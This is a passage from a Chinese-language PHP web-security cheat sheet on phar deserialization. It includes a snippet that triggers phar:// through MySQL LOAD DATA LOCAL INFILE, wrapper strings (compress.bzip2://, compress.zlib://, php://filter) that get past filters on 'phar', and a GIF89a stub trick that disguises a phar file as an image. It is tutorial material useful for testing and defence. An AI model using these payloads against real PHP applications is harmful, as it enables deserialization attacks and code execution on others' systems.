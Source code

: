 ```
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'testtable', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
?&gt;


```

### 绕过方式

> 
当环境限制了phar不能出现在前面的字符里，可以使用compress.bzip2://和compress.zlib://等绕过


```
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt

```

> 
当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用


```
php://filter/read=convert.base64-encode/resource=phar://phar.phar

```

> 
GIF格式验证可以通过在文件头部添加GIF89a绕过


```
1、$phar-&gt;setStub(“GIF89a”."&lt;?php __HALT_COMPILER(); ?&gt;");
2、生成一个phar.phar，修改后缀名为phar.gif

```

## PHP原生类反序列化利用

> 



### SoapClient __call方法进行SSRF

> 
**使用前提：**

